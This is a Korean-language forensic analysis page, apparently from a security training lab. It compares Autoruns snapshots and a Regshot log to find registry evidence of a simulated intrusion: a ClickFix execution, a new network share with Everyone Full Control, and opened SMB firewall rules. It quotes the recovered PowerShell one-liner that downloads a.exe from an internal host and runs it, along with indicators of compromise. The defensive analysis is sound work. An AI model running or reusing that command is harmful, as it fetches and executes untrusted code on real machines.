

아티팩트 수집 (AutoRuns & 레지스터리)
| 남지연 | |
| 진행 중 |
Autoruns에서 before.arn과 after.arn 파일 비교해 증적 수집하기
취약한 경로를 가진 서비스가 레지스트리에 등록되어 있다.
| 항목 | 결과 |
|---|---|
| 형식 | OLE Compound Binary 기반 Autoruns ARN, version 7 |
| 파일 크기 | 각각 6,327,804 bytes |
| Autoruns 항목 | 각각 1,479개 |
| 비교한 논리 스트림 | 15,671개 |
| 추가·삭제·변경 항목 | 0건 |
| 서비스·Run·Winlogon·IFEO·AppInit 변경 | 0건 |
| 시나리오 관련 확인 변경 | 0건 |
Autoruns ARN Before/After 레지스트리 관련 비교 보고서
1. 결론
Before.arn과 After.arn은 모두 Sysinternals Autoruns의 OLE Compound Binary 저장 파일이다. 내부 Header 스트림은 두 파일 모두 Autoruns, 형식 버전 7이며, 각각 1,479개 Autoruns 항목을 포함한다.
두 파일의 Autoruns 논리 데이터는 완전히 동일하다. 총 15,671개 스트림(항목 데이터 스트림 15,668개와 전역 Header/SmallIcons/LargeIcons 스트림)의 내용이 모두 일치하며, 추가·삭제·변경된 Autoruns 항목은 0건이다. 따라서 이 자료만으로는 ClickFix, Sliver C2 beacon, Unquoted Service Path LPE, LSASS dump 또는 File Server lateral movement와 연결되는 레지스트리 변경 증적을 확인할 수 없다.
파일 전체 SHA-256은 다르지만, 차이는 OLE 컨테이너의 저장 시각 메타데이터에만 존재한다. 이를 레지스트리 키 수정 시각이나 침해 행위 시각으로 해석해서는 안 된다.
2. 파일 식별 및 무결성
| 구분 | Before.arn | After.arn |
|---|---|---|
| 파일 크기 | 6,327,804 bytes | 6,327,804 bytes |
| SHA-256 | B839DB639641C0AFE23C708FB3FEEC58594F62665008DEFF6BE206C4768C7ADC | E196B1E2F463F0160D6713CBC5E794A18D9B7ECA2065DAD28526373FA623FE23 |
| 파일 시그니처 | D0 CF 11 E0 A1 B1 1A E1 | D0 CF 11 E0 A1 B1 1A E1 |
| 실제 형식 | OLE Compound Binary 기반 Autoruns .arn | OLE Compound Binary 기반 Autoruns .arn |
| 내부 헤더 | Autoruns, version 7 | Autoruns, version 7 |
| Autoruns 항목 수 | 1,479 | 1,479 |
3. 변경 Finding
| Finding | 레지스트리 키/값 | Before 값 | After 값 | 시간정보 | 의미/침해 연관성 |
|---|---|---|---|---|---|
| 확인된 레지스트리 관련 변경 없음 | 해당 없음 | 1,479개 항목 | 동일한 1,479개 항목 | 각 항목의 내장 TimeStamp도 모두 동일 | 서비스 등록·변경, 로그온 지속성, 이미지 하이재킹 등 Autoruns가 수집한 범위에서 시나리오 연관 변경을 입증할 수 없음 |
4. 우선 검토 영역
| 검토 영역 | 비교 결과 | 해석 |
|---|---|---|
| 서비스 및 드라이버 | 변경 0건 | 신규 서비스, 서비스 실행 경로 변경 또는 새 Unquoted Service Path가 두 캡처 사이에 도입되었다는 증거 없음 |
| Run / RunOnce 및 기타 Logon ASEP | 변경 0건 | ClickFix 이후 로그온 지속성 등록 증거 없음 |
| Winlogon | 변경 0건 | Shell, UserInit 등 Autoruns 수집 범위에서 변경 없음 |
| IFEO / Image Hijacks | 변경 0건 | 디버거 기반 이미지 하이재킹 변경 없음 |
| AppInit | 변경 0건 | AppInit_DLLs 관련 변경 없음 |
| Defender 관련 Autoruns 항목 | 변경 0건 | Defender 서비스·드라이버·알림 항목은 동일함. 단, Defender 정책/예외 전체를 수집한 자료는 아님 |
| PowerShell 문자열 | 시나리오성 변경 0건 | 확인된 PowerShell 문자열은 양쪽에 동일한 표준 Hyper-V PowerShell Direct 서비스 설명뿐임 |
| LSASS 문자열 | 시나리오성 변경 0건 | 양쪽에 동일한 Windows 기본 서비스 참조만 존재하며, LSASS 덤프 실행 증거가 아님 |
| 네트워크·공유·사용자 | 판정 불가 | LanmanServer Autoruns 항목은 동일하지만, ARN은 공유·사용자·원격 접속 흔적 전체를 수집하는 포맷이 아님 |
Sliver, DESKTOP-IS00QJN 정확 문자열 | 양쪽 모두 0건 | 문자열 부재만으로 행위 부재를 입증할 수 없음 |
5. 시간정보
| 메타데이터 | Before | After | 증거 해석 |
|---|---|---|---|
| OLE Root 저장 메타데이터 | 2026-09-15 00:37:02.338 UTC / 09:37:02.338 KST | 2026-09-15 02:25:33.866 UTC / 11:25:33.866 KST | ARN 컨테이너 저장 시각 성격; 레지스트리 키 수정 시각이 아님 |
Autoruns 항목 TimeStamp | 모든 항목에서 After와 동일 | 모든 항목에서 Before와 동일 | 항목 수준의 변경 없음 |
6. 한계 및 후속 증적
Autoruns .arn은 자동 시작 지점(ASEP) 중심 자료이며 전체 레지스트리 스냅샷이 아니다. 따라서 이번 비교 결과는 “두 ARN의 Autoruns 항목이 동일하다”는 뜻이며, 시나리오의 행위가 발생하지 않았다는 뜻은 아니다. 다음 자료를 별도로 확보해야 한다.
SYSTEM,SOFTWARE,SAM,SECURITY, 각 사용자NTUSER.DAT및UsrClass.dat하이브
- 서비스 생성/변경 확인을 위한 System 이벤트 로그(특히 Service Control Manager)
- PowerShell Operational, Defender Operational, Security, Sysmon 로그
- Prefetch, Amcache, Shimcache, SRUM, LNK/Jump List 및 브라우저/다운로드 흔적
- LSASS 접근·덤프 및 원격 이동 확인을 위한 EDR/Sysmon 프로세스·파일·네트워크 이벤트
- 파일 서버 측 로그온, SMB 공유 접근 및 객체 접근 로그
7. 최종 판단
확인된 변경 Finding: 0건. 두 파일의 해시 차이는 Autoruns 데이터 변경이 아니라 OLE 저장 메타데이터 차이에서 발생했다. 현재 자료만으로 시나리오 단계와 직접 연결되는 레지스트리 증적을 보고서에 기재해서는 안 된다.
Regshot
캡처 구간은 2026-09-15 00:35:50부터 02:28:28까지이며, PowerShell 관련 JumpList에는 2026-09-15 11:00:11.741 KST 시각이 들어 있습니다. 다만 이것이 RunMRU 명령의 정확한 실행 시각이라고 단정할 수는 없습니다.
비교 구간은 2026-09-15 00:28:39부터 2026-09-15 18:11:10까지이다
| 증적 | 핵심 내용 | 판단 |
|---|---|---|
| ClickFix 명령 | RunMRU에 PowerShell 다운로드·SHA-256 검증·실행 명령 추가 | 직접 부합 |
| 다운로드 IOC | http://192.168.50.10:8000/a.exe → %TEMP%\a.exe | 실행 성공 여부는 추가 확인 필요 |
| 기대 SHA-256 | ca7376fb8a63573c3ae02147e6105bce76c091bc7d39c6f2d449bbe9b69e5fc8 | 파일 식별 IOC |
| 의심 실행 흔적 | %WINDIR%\Temp\Kisec\payloads\svchost.exe UserAssist 항목 추가 | 시스템 파일명 위장 가능성 |
| 파일 공유 | C:\TempShare를 TempShare로 신규 공유 | 측면 이동 연관성 높음 |
| 공유 권한 | Everyone Full Control | 고위험 설정 |
| 방화벽 | Public 프로필에 SMB 445/139, RPC·NetBIOS 관련 허용 규칙 추가 | 원격 공유 접근 가능성 확대 |
| 서비스 LPE | 악성 신규 서비스 또는 Unquoted Service Path 미확인 | Regshot 증거 없음 |
| LSASS dump | 관련 명령·도구·보호 설정 변경 미확인 | Regshot만으로 배제 불가 |
| Sliver | 다운로드·실행 정황은 있으나 Sliver 제품 식별 증거 없음 | 바이너리/네트워크 분석 필요 |
핵심 IOC:
- URL:
http://192.168.50.10:8000/a.exe
- 저장 위치:
%TEMP%\a.exe
- 명령 내 기대 SHA-256:
ca7376fb8a63573c3ae02147e6105bce76c091bc7d39c6f2d449bbe9b69e5fc8
- 생성 공유:
\\DESKTOP-IS00QJN\TempShare→C:\TempShare
- 공유 권한: Everyone Full Control
두 ARN의 파일 해시는 다르지만 Autoruns 데이터는 동일하며, 차이는 OLE 저장 메타데이터뿐입니다.
| 시나리오 단계 | 판정 | 핵심 증적 |
|---|---|---|
| ClickFix | 확인 | RunMRU에 PowerShell 다운로드·해시 검증·실행 명령 추가 |
| Sliver beacon | 미확정 | %TEMP%\a.exe 실행 명령은 있으나 Sliver 식별 증거 없음 |
| Unquoted Service Path LPE | 미확인 | 공격 관련 서비스 경로 변경 없음 |
| LSASS dump | 미확인 | 관련 명령·도구·보안 설정 변화 없음 |
| File Server lateral movement | 강한 정황 | TempShare 생성, Everyone Full Control, SMB/RPC 방화벽 허용 |
| Autoruns 변경 | 없음 | 1,479개 항목과 15,671개 스트림 모두 동일 |
분석 보고서
1. 분석 대상 및 무결성
| 파일 | 실제 형식 | 크기 | SHA-256 |
|---|---|---|---|
Before.arn | OLE Compound Binary 기반 Sysinternals Autoruns ARN (Autoruns, version 7) | 6,327,804 bytes | 6F1C37A8AADC1D282DD3C6484767B19EF2B6E2A2AA0F5CBC7BC0754CAD86C75A |
After.arn | OLE Compound Binary 기반 Sysinternals Autoruns ARN (Autoruns, version 7) | 6,327,804 bytes | 241C26B730555361D622F0D3DB629940E8BD93692AAAB9F5BF1BF428F880F683 |
레지샷.txt | Regshot 1.9.1 x64 Unicode 비교 로그(UTF-16LE) | 3,624,272 bytes | BD18A5EA7803B00C4B55CD9C11955D54C2EE3D4DA2E7721A8AADA8D13E417449 |
Regshot 헤더상 대상은 DESKTOP-IS00QJN, 사용자는 Administrator, 비교 구간은 2026-09-15 00:28:39부터 2026-09-15 18:11:10까지이다. Regshot 헤더에는 시간대 정보가 포함되지 않는다.
경로에 따옴표 없는 거 확인 → Unquoted Service Path 후보
{kind=link}

[after.arn]

[before.arn]

2. 핵심 Finding
| 우선순위 | Finding | 레지스트리 키/값 | Before | After | 시간정보 | 의미/침해 연관성 |
|---|---|---|---|---|---|---|
| 높음 | Run 대화상자를 통한 PowerShell 다운로드·검증·실행 명령 | HKU\S-1-5-21-1291778260-3289171352-1194275199-1107\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU\e | 값 없음 | powershell -nop -c "$p=Join-Path $env:TEMP a.exe;iwr <http://192.168.50.10:8000/a.exe> -OutFile $p;if((Get-FileHash $p -a SHA256).Hash-eq'ca7376fb8a63573c3ae02147e6105bce76c091bc7d39c6f2d449bbe9b69e5fc8'){&$p}else{ri $p -Force}"\1 | 개별 값 timestamp 없음. Regshot 비교 구간 내 추가 | PowerShell을 프로필 없이 실행하고 내부 IP에서 a.exe를 내려받아 지정 SHA-256과 일치하면 실행한다. ClickFix형 Run 대화상자 실행과 직접 부합한다. 다운로드·해시 검증·실행의 성공 여부와 Sliver 식별은 이 값만으로 확정할 수 없다. |
| 높음 | RunMRU 목록 변경 | 같은 키의 MRUList | cba | decba | 개별 값 timestamp 없음 | 새 d=cmd, e=PowerShell 명령이 RunMRU에 포함되었음을 교차확인한다. RunMRU는 자동시작 지속성 키가 아니라 Run 대화상자 실행 이력이다. |
| 중간 | PowerShell 활동 시각 보강 | HKU\...\Software\Microsoft\Windows\CurrentVersion\Search\JumplistData\{1AC14E77-02E7-4E5D-B744-2EB1AE5198B7}\WindowsPowerShell\v1.0\powershell.exe | 값 없음 | 0x01DD453BF23BC46B | FILETIME 표준 해석: 2026-09-15 17:59:26.0373099 UTC (2026-09-16 02:59:26.0373099 KST) | 캡처 구간 내 PowerShell 관련 활동을 보강한다. RunMRU 명령의 정확한 실행시각으로 단정하지 않는다. |
| 보강 | PowerShell 이름의 RAS 추적 키 생성 | HKLM\SOFTWARE\Microsoft\Tracing\PowerShell_RASAPI32, PowerShell_RASMANCS | 키 없음 | 추적 구성 값 생성; EnableFileTracing=0, FileDirectory=%windir%\tracing 등 | 개별 timestamp 없음 | PowerShell 프로세스에서 RAS 구성요소가 초기화된 정황이다. C2 접속 자체를 입증하지는 않으며 추적 기능은 비활성화 상태다. |
| 높음 | TempShare SMB 공유 생성 | HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Shares\TempShare | 값 없음 | CATimeout=0, CSCFlags=0, MaxUses=4294967295, Path=C:\TempShare, Permissions=63, ShareName=TempShare, Type=0 | 개별 timestamp 없음. 비교 구간 내 추가 | C:\TempShare가 TempShare로 새로 공유되었다. 파일 서버 접근·전송 또는 측면 이동 준비와 직접 관련성이 높은 변경이다. ControlSet001 표시는 동일한 논리 변경의 별칭으로 중복 집계하지 않았다. |
| 높음 | TempShare에 Everyone Full Control ACL | HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Shares\Security\TempShare | 값 없음 | 76-byte self-relative security descriptor | 개별 timestamp 없음 | DACL의 허용 ACE가 S-1-1-0(Everyone)에 access mask 0x001F01FF를 부여한다. Full Control로 해석되며 무단 파일 접근·전송 위험이 높다. |
| 높음 | SMB·NetBIOS·RPC 방화벽 허용 규칙 추가 | HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\FirewallRules\{GUID} 16개 | 값 없음 | Action=Allow, Active=TRUE; Public 프로필에 TCP 445/139, UDP 137/138, RPC/RPC-EPMap 및 LLMNR/ICMP 관련 규칙 | 개별 timestamp 없음 | 인바운드 SMB 445/139 및 RPC 허용은 TempShare의 원격 접근성을 확대한다. 파일 공유 기반 측면 이동 정황과 강하게 연관되지만 실제 원격 접속 성공·원격 호스트는 별도 로그가 필요하다. |
| 정보 | 이벤트 로그 자동 백업 설정 추가 | HKLM\SYSTEM\CurrentControlSet\Services\EventLog\{Application,Security,System}\AutoBackupLogFiles | 값 없음 | 각각 0x00000001 | 개별 timestamp 없음 | 로그 자동 백업 활성화로 보이며 단독으로 침해 지표로 판단하지 않는다. |
3. Autoruns Before/After 비교
| 항목 | Before | After | 결과 |
|---|---|---|---|
| Autoruns 항목 수 | 1,479 | 1,479 | 동일 |
| 전체 논리 스트림 | 15,671 | 15,671 | 모든 내용 동일 |
| 항목 추가·삭제·변경 | 0 | 0 | 변경 없음 |
두 ARN의 SHA-256은 다르지만, 변경된 것은 1,481개 OLE 디렉터리 엔트리의 저장 메타데이터뿐이다. 스트림 내용, 디렉터리 구조, Autoruns 항목과 각 항목의 내장 TimeStamp는 모두 동일하다. 따라서 ARN 해시 차이를 레지스트리 변경이나 침해 시각으로 해석하면 안 된다.
4. 우선 검토 영역별 판단
| 검토 영역 | 결과 | 판단 |
|---|---|---|
| ClickFix | RunMRU에 PowerShell 원라이너 추가 | 직접 부합 |
| Sliver C2 beacon | a.exe 다운로드·조건부 실행 명령 확인 | Sliver 제품 식별은 불가. 파일 또는 네트워크 증적 필요 |
| 서비스 등록/변경 | 새 악성 서비스 없음 | vm3dservice, VMRawDsk는 VMware Tools/드라이버 갱신과 대소문자 변화가 중심이며 실행 경로는 전후 동일 |
| Unquoted Service Path LPE | 확인되지 않음 | 변경된 서비스 경로에 시나리오에 해당하는 공백 포함 비인용 실행 경로가 없음 |
| Run/RunOnce 지속성 | 자동시작 변경 없음 | RunMRU 실행 이력과 Run 자동시작 키를 구분해야 함 |
| Winlogon | 침해성 변경 없음 | 공격 관련 Shell, Userinit 변경 없음 |
| IFEO / AppInit | 변경 없음 | Debugger, GlobalFlag, AppInit_DLLs 변화 없음 |
| Defender·보안 설정 | 변경 없음 | Defender 예외·실시간 감시 비활성화, LSA RunAsPPL, WDigest UseLogonCredential 변화 없음 |
| PowerShell | 실행 명령·JumpList·RAS 추적 키 확인 | 초기 실행 단계의 강한 정황 |
| LSASS dump | 직접 증적 없음 | lsass, comsvcs MiniDump, ProcDump, Mimikatz 계열 문자열 및 관련 보호 설정 변화 없음. 행위 부재를 뜻하지는 않음 |
| 사용자·권한 | 공격 관련 변경 없음 | 신규 SAM 사용자, 숨김 사용자, LocalAccountTokenFilterPolicy, UAC 우회 정책 변화 없음 |
| File Server lateral movement | 공유·ACL·방화벽 변경 확인 | 원격 파일 접근 준비/노출 정황 강함. 실제 연결 성공과 대상 호스트는 미확인 |
5. IOC
| 유형 | 값 |
|---|---|
| 다운로드 URL | http://192.168.50.10:8000/a.exe |
| 원격 IP/포트 | 192.168.50.10:8000 |
| 로컬 저장 위치 | %TEMP%\a.exe |
| 명령 내 기대 SHA-256 | ca7376fb8a63573c3ae02147e6105bce76c091bc7d39c6f2d449bbe9b69e5fc8 |
| 생성 공유 | \\DESKTOP-IS00QJN\TempShare → C:\TempShare |
| 공유 ACL | Everyone Full Control (S-1-1-0, 0x001F01FF) |
6. 핵심 결론
새 증적 세트에서는 ClickFix형 PowerShell 명령이 RunMRU에 직접 남아 있으며, 192.168.50.10:8000에서 %TEMP%\a.exe를 내려받아 해시 검증 후 실행하도록 구성되어 있다. 이는 초기 실행 단계의 핵심 증적이다.
또한 TempShare 생성, Everyone Full Control ACL, Public 프로필의 SMB/NetBIOS/RPC 방화벽 허용이 함께 확인되어 파일 공유 기반 측면 이동 준비 또는 원격 노출 정황이 강하다.